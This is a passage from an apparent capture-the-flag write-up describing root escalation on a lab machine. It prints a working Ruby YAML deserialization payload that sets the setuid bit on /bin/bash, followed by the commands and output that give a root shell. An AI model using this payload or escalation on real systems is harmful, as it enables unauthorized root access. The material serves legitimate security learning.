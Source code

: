 Googling `YAML load function`, showed that this is a deserialization attack. [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) had a universal payload that I modified to set the suid bit on `/bin/bash`

```
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

Saving that file and running the script with `sudo ruby /opt/update_dependencies.rb` resulted in the attack working setting the suid bit on `/bin/bash`

```
henry@precious:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Using the suid bit I elevated to root and grabbed the flag

```
henry@precious:~$ /bin/bash -p                           
bash-5.1# id                                                     
uid=1000(henry) gid=1000(henry) euid=0(root) groups=1000(henry)

bash-5.1# cd /root                                                
bash-5.1# cat root.txt                                           
3b23*****************
```

